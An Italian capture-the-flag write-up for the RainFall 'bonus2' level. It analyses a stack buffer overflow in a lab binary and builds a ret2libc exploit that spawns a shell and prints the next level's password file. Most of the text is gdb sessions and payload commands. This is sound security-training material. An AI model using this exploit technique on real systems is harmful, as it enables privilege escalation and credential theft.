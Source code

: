 # Bonus 2
Controlliamo le stringhe presenti nel binario:
```
bonus2@RainFall:~$ readelf -p '.rodata' bonus2

String dump of section '.rodata':
  [     8]  Hello
  [     f]  Hyv<0xc3><0xa4><0xc3><0xa4> p<0xc3><0xa4>iv
  [    22]  Goedemiddag!
  [    30]  LANG
  [    35]  fi
  [    38]  nl
```
e ora analizziamo tramite `gdb`:
```
bonus2@RainFall:~$ gdb -q bonus2
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048318  _init
0x08048360  memcmp
0x08048360  memcmp@plt
0x08048370  strcat
0x08048370  strcat@plt
0x08048380  getenv
0x08048380  getenv@plt
0x08048390  puts
0x08048390  puts@plt
0x080483a0  __gmon_start__
0x080483a0  __gmon_start__@plt
0x080483b0  __libc_start_main
0x080483b0  __libc_start_main@plt
0x080483c0  strncpy
0x080483c0  strncpy@plt
0x080483d0  _start
0x08048400  __do_global_dtors_aux
0x08048460  frame_dummy
0x08048484  greetuser
0x08048529  main
0x08048640  __libc_csu_init
0x080486b0  __libc_csu_fini
0x080486b2  __i686.get_pc_thunk.bx
0x080486c0  __do_global_ctors_aux
0x080486ec  _fini
```

### Funzione `main`
Abbiamo un array di 72 byte e un puntatore, successivamente viene controllato il numero
degli argomenti passati, se diverso da 3 allora il programma termina la sua esecuzione.
poi abbiamo una serie di chiamate a funzioni nel seguente modo:
```
    memset(dest, 0, 19);
    strncpy(dest, argv[1], 40);
    strncpy(dest + 40, argv[2], 32);
    env = getenv("LANG");
```
Dunque il primo ed il secondo argomento vengono inseriti nello stesso buffer da 72 byte
e successivamente tramite il ritorno di `getenv` viene settata una variabile globale, 
se LANG è uguale a `fi` allora la variabile è 1, se uguale a `nl` allora è 2 altrimenti
rimane il valore 0.

### Funzione `greetuser`
Tramite il valore della variabile globale precedentemente settato nella funzione `main`
viene scelta quale stringa concatenare al precedente buffer da 72 della funzione `main`
per poi stampare il tutto.

### Soluzione
Senza modificare la variabile d'ambiente `LANG` purtroppo non si riesce a sovrascrivere
completamente l'indirizzo di `eip` dunque ho provato a settare `LANG` al valore `nl`:
`export LANG=nl`, così facendo riusciamo a sovrascrivere l'intero indirizzo.
```
(gdb) r $(python -c 'print "A"*40') $(python -c 'print "B"*32')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A"*40') $(python -c 'print "B"*32')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
Troviamo l'offset tramite il sito [Buffer Overflow EIP Offset String Generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/):
```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A"*40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
```
Offset: 23

Adesso la tecnica che useremo è chiamata `ret2libc`, che a differenza dell'injection di uno
shellcode andremo a richiamare la funzione `system` già presente nel collegamento con la `libc`
passandogli come argomento `/bin/sh` anch'esso già presente nel collegamento alla libreria.
Dunque ora andiamo alla ricerca degli indirizzi:
```
bonus2@RainFall:~$ gdb -q bonus2
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) r ciao1 ciao2
Starting program: /home/user/bonus2/bonus2 ciao1 ciao2

Breakpoint 1, 0x0804852f in main ()
(gdb) info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0xb7e6b060  __libc_system
0xb7e6b060  system
0xb7f49550  svcerr_systemerr
```
```
(gdb) info proc map
process 3251
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
         0x8049000  0x804a000     0x1000        0x0 /home/user/bonus2/bonus2
        0xb7e2b000 0xb7e2c000     0x1000        0x0
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0
        0xb7fdb000 0xb7fdd000     0x2000        0x0
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000,0xb7fd2000,"/bin/sh"
0xb7f8cc58
1 pattern found.
```
```
system:     0xb7e6b060
"/bin/sh":  0xb7f8cc58
```
Tramite `gdb` possiamo vedere che la stringa per la funzione `system` viene presa dallo stack
con un offset di 4:
```
(gdb) r $(python -c 'print "CCCC" + "DDDD" + "A"*32') $(python -c 'print "A"*23 + "\x60\xb0\xe6\xb7"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 $(python -c 'print "CCCC" + "DDDD" + "A"*32') $(python -c 'print "A"*23 + "\x60\xb0\xe6\xb7"')
Goedemiddag! CCCCDDDDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��

Breakpoint 1, 0x08048528 in greetuser ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x43434300 in ?? ()
(gdb) info registers
eax            0x7f00   32512
ecx            0xbffff57c       -1073744516
edx            0x0      0
ebx            0xbffff690       -1073744240
esp            0xbffff644       0xbffff644
ebp            0x41414141       0x41414141
esi            0xbffff6dc       -1073744164
edi            0xbffff68c       -1073744244
eip            0x43434300       0x43434300
eflags         0x210296 [ PF AF SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x /x $esp
0xbffff644:     0x44444444
```

Dunque l'exploit dovrà essere:
```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "CCCC" + "\x58\xcc\xf8\xb7" + "A"*32') $(python -c 'print "A"*23 + "\x60\
xb0\xe6\xb7"')
Goedemiddag! CCCCX���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ exit
Segmentation fault (core dumped)
bonus2@RainFall:~$ su bonus3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/user/bonus3/bonus3
bonus3@RainFall:~$
```